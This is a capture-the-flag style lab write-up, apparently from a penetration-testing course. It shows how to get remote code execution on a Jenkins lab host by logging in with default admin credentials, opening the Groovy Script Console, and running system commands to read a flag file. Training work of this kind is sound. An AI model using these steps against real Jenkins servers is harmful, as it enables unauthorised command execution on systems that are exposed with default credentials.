 ### Lab 1: Jenkins RCE and Flag Retrieval
**Question:** "Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory"

**Solution Methodology:**

#### Step 1: Environment Setup and Authentication
```bash
# Add VHost entry to /etc/hosts
echo "TARGET_IP jenkins.inlanefreight.local" >> /etc/hosts

# Verify Jenkins accessibility
curl -I http://jenkins.inlanefreight.local:8000/

# Login with provided credentials: admin:admin
curl -c cookies.txt -d "j_username=admin&j_password=admin" \
  http://jenkins.inlanefreight.local:8000/j_security_check

# Verify authentication
curl -b cookies.txt http://jenkins.inlanefreight.local:8000/manage | grep -q "Manage Jenkins"
```

#### Step 2: Script Console Access
```bash
# Access Jenkins Script Console
curl -b cookies.txt http://jenkins.inlanefreight.local:8000/script

# Verify Script Console accessibility
curl -b cookies.txt http://jenkins.inlanefreight.local:8000/script | \
  grep -q "Script Console" && echo "[+] Script Console accessible"
```

#### Step 3: Command Execution via Groovy Script
```groovy
// Basic command execution to verify access
def cmd = 'whoami'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout

// Expected output: root (or jenkins user)
```

#### Step 4: Flag Discovery and Retrieval
```groovy
// Method 1: Direct flag reading
def flagPath = '/var/lib/jenkins3/flag.txt'
try {
    def flagFile = new File(flagPath)
    if (flagFile.exists()) {
        println "[+] Flag found at: $flagPath"
        println "[+] Flag content: ${flagFile.text}"
    } else {
        println "[-] Flag not found at $flagPath"
    }
} catch (Exception e) {
    println "Error reading flag: ${e.getMessage()}"
}

// Method 2: Command-based flag reading
def cmd = 'cat /var/lib/jenkins3/flag.txt'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
```
